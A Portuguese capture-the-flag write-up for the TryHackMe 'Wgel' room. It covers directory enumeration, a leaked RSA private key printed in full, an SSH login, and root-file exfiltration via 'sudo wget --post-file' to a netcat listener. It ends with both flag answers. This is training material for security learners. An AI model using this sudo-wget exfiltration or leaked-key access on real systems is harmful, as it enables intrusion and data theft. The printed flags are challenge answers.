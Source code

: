 Wgel CTF

Ao iniciar a maquina dei comando nmap para saber as portas daquele IP

    nmap -A IP

apos ver um apache instalado dei um gobuster para ver os diretorios, usei a wordlist commom.txt

    gobuster dr -u IP -w /usr/share/dirb/wordlist/commom.txt

ao encontrar os diretorio /sitemap dei um gobuster novamente mas agora filtrando o /sitemap

    gobuster dir -u IP/sitemap -w /usr/share/dirb/wordlist/commom.txt

assim encontrando a pagina principal do desafio ao procurar na pagina pelo css, js, etc.. encontrava-se 2 informacoes importantes. No codigo fonte do apache tinha mencao a um possivel usuario(jessie) e no /sitemap/index.html tambem tinha mencao a jessie assim dando a entender que seria o usuario jessie

ao vasculhar pelos diretorios do /site map tinha um /.ssh ao abrir tinha uma chave privada RSA 

    -----BEGIN RSA PRIVATE KEY-----
    MIIEowIBAAKCAQEA2mujeBv3MEQFCel8yvjgDz066+8Gz0W72HJ5tvG8bj7Lz380
    m+JYAquy30lSp5jH/bhcvYLsK+T9zEdzHmjKDtZN2cYgwHw0dDadSXWFf9W2gc3x
    W69vjkHLJs+lQi0bEJvqpCZ1rFFSpV0OjVYRxQ4KfAawBsCG6lA7GO7vLZPRiKsP
    y4lg2StXQYuZ0cUvx8UkhpgxWy/OO9ceMNondU61kyHafKobJP7Py5QnH7cP/psr
    +J5M/fVBoKPcPXa71mA/ZUioimChBPV/i/0za0FzVuJZdnSPtS7LzPjYFqxnm/BH
    Wo/Lmln4FLzLb1T31pOoTtTKuUQWxHf7cN8v6QIDAQABAoIBAFZDKpV2HgL+6iqG
    /1U+Q2dhXFLv3PWhadXLKEzbXfsAbAfwCjwCgZXUb9mFoNI2Ic4PsPjbqyCO2LmE
    AnAhHKQNeUOn3ymGJEU9iJMJigb5xZGwX0FBoUJCs9QJMBBZthWyLlJUKic7GvPa
    M7QYKP51VCi1j3GrOd1ygFSRkP6jZpOpM33dG1/ubom7OWDZPDS9AjAOkYuJBobG
    SUM+uxh7JJn8uM9J4NvQPkC10RIXFYECwNW+iHsB0CWlcF7CAZAbWLsJgd6TcGTv
    2KBA6YcfGXN0b49CFOBMLBY/dcWpHu+d0KcruHTeTnM7aLdrexpiMJ3XHVQ4QRP2
    p3xz9QECgYEA+VXndZU98FT+armRv8iwuCOAmN8p7tD1W9S2evJEA5uTCsDzmsDj
    7pUO8zziTXgeDENrcz1uo0e3bL13MiZeFe9HQNMpVOX+vEaCZd6ZNFbJ4R889D7I
    dcXDvkNRbw42ZWx8TawzwXFVhn8Rs9fMwPlbdVh9f9h7papfGN2FoeECgYEA4EIy
    GW9eJnl0tzL31TpW2lnJ+KYCRIlucQUnBtQLWdTncUkm+LBS5Z6dGxEcwCrYY1fh
    shl66KulTmE3G9nFPKezCwd7jFWmUUK0hX6Sog7VRQZw72cmp7lYb1KRQ9A0Nb97
    uhgbVrK/Rm+uACIJ+YD57/ZuwuhnJPirXwdaXwkCgYBMkrxN2TK3f3LPFgST8K+N
    LaIN0OOQ622e8TnFkmee8AV9lPp7eWfG2tJHk1gw0IXx4Da8oo466QiFBb74kN3u
    QJkSaIdWAnh0G/dqD63fbBP95lkS7cEkokLWSNhWkffUuDeIpy0R6JuKfbXTFKBW
    V35mEHIidDqtCyC/gzDKIQKBgDE+d+/b46nBK976oy9AY0gJRW+DTKYuI4FP51T5
    hRCRzsyyios7dMiVPtxtsomEHwYZiybnr3SeFGuUr1w/Qq9iB8/ZMckMGbxoUGmr
    9Jj/dtd0ZaI8XWGhMokncVyZwI044ftoRcCQ+a2G4oeG8ffG2ZtW2tWT4OpebIsu
    eyq5AoGBANCkOaWnitoMTdWZ5d+WNNCqcztoNppuoMaG7L3smUSBz6k8J4p4yDPb
    QNF1fedEOvsguMlpNgvcWVXGINgoOOUSJTxCRQFy/onH6X1T5OAAW6/UXc4S7Vsg
    jL8g9yBg4vPB8dHC6JeJpFFE06vxQMFzn6vjEab9GhnpMihrSCod
    -----END RSA PRIVATE KEY-----

assim era so invadir, fazendo conexao ssh com o usuario jessie.. entretanto tinhamos que baixar o arquivo 

    wget IP/sitemap/.ssh/id_rsa

ao baixar e tentar invadir o RSA nao estava com suas permissoes padroes assim tendo que atualizar suas permissoes

    chmod 600 id_rsa

agora sim se tornando possivel invadir o sistema

    sudo ssh -i id_rsa jessi@IP

entrando no usuario jessi era so procurar pela 1 flag que se encontrava na pasta Documents

    cd Documents
    cat user_flag.txt

assim acessando a 1 flag, para encontrar a segundo o tryhackme ja informou que precisava do usuario 'root' ao dar o comando 

    sudo -l 

vimos que o usuario jessie tinha permissao para executar o /usr/bin/wget como root, assim era so procurar uma forma de acessar para poder procurar a ultima flag no site GTFObins ao procurar wget tinha uma falha para fazer um NETCAT para nossa maquina assim...

tinhamos que saber qual era o arquivo a ser lido, porem nao era possivel vizualizar a pasta root e apos tentar alguns nomes como root/root.txt, deduz-se que poderia ser root/root_user.txt visto que a 1 flag tinha um nome parecido.. apos abrir a porta na sua maquina

    nc -nlvp 1333

era so executar o comando..

    sudo wget --post-file=/root/root_flag.txt IPtryhackme:1333

assim encontrando as 2 flags e finalizando o desafio.

FLAGS

    Flag 1: 057c67131c3d5e42dd5cd3075b198ff6
    Flag 2: b1b968b37519ad1daa6408188649263d
